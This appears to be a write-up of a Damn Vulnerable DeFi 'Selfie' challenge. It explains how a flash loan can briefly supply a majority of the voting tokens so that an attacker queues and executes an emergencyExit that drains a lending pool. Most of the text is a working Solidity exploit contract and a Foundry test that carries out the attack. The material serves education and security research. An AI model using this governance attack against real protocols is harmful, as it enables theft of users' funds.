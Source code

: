 ## `flashLoan` Can Be Used to Acquire Voting Power and Execute an Arbitrary `emergencyExit`

To queue an action, a user must possess more than 50% of the total supply of voting tokens. The total supply is 2 million tokens, and a flash loan can be used to acquire up to 1.5 million tokens, which represents 75% of the total supply.

This allows any attacker to temporarily gain the necessary voting power to queue and execute a malicious `emergencyExit` action, potentially draining all funds from the contract.

### PoC
First, we create a malicious borrower smart contract, with a function `onFlashLoan`, that will have the attack logic:
```solidity
contract Borrower is IERC3156FlashBorrower {
    SimpleGovernance gov;
    address pool;
    address recovery;

    constructor(address _gov, address _pool, address _recovery){
        gov = SimpleGovernance(_gov);
        pool = _pool;
        recovery = _recovery;
    }

    function onFlashLoan(
        address /*initiator*/,
        address token,
        uint256 amount,
        uint256 /*fee*/,
        bytes calldata /*data*/
    ) external returns (bytes32) {
        // delegate the borrowed tokens to 'this' (so `token.getVotes` returns such amount) 
        DamnValuableVotes(token).delegate(address(this));
        // prepare malicious call data
        bytes memory data = abi.encodeWithSignature('emergencyExit(address)', recovery);
        // queue the action
        gov.queueAction(pool,0,data);
        // approve and return to avoid tx to fail 
        DamnValuableVotes(token).approve(msg.sender, amount);
        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }
}
```

Then use it on the test case:
```solidity
    function test_selfie() public 
    checkSolvedByPlayer 
    {
        // deploy borrower contract
        Borrower borrower = new Borrower(address(governance), address(pool), recovery);

        // request a flashloan (the callback 'onFlashLoan' has the logic the queue our malicious action) 
        pool.flashLoan(borrower, address(token), pool.maxFlashLoan(address(token)), '');
        // after delay period ends, execute the action
        vm.warp(2 days + 1);
        governance.executeAction(1);
    }
```


